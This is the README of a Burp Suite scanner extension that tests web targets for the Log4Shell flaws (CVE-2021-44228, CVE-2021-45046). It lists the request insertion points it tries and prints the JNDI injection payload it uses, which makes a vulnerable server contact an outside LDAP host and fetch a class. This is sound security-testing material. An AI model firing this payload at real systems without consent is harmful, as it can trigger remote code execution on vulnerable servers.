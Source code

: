 # Log4j-HammerTime
This Burp Suite Active Scanner extension validates exploitation of the Apache Log4j CVE-2021-44228 and CVE-2021-45046 vulnerabilities. 

This extension uses the Burp Collaborator to verify the issue.

## Usage

* Enable this extension
* Launch an Active Scan on a specific target

if you want to run only checks from this module, you can import the [extensions-only.json](./extensions-only.json) profile and select it as the Active Scan Profile.

## Details
During an Active Scan, the following insertion points are tried in this extension:
* HEADER
* PARAM_NAME_BODY
* PARAM_BODY
* PARAM_NAME_URL
* PARAM_URL
* PARAM_COOKIE
* PARAM_JSON
* ENTIRE_BODY 

At each insertion point, the request is injected with the following payload:
```${jndi:ldap://{BURPCOLLABORATOR}/exploit.class}```

Moreover, this extension adds many headers which are enabled in [headers](./resources/headers) (uncommented lines). 
These headers are injected one-by-one in a seperate request.

## Legal Disclaimer
This project is made for educational and ethical testing purposes only. Usage of Log4Shell-active-scanner for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.

## License
The project is licensed under MIT License.

## Authors
* Freskimo
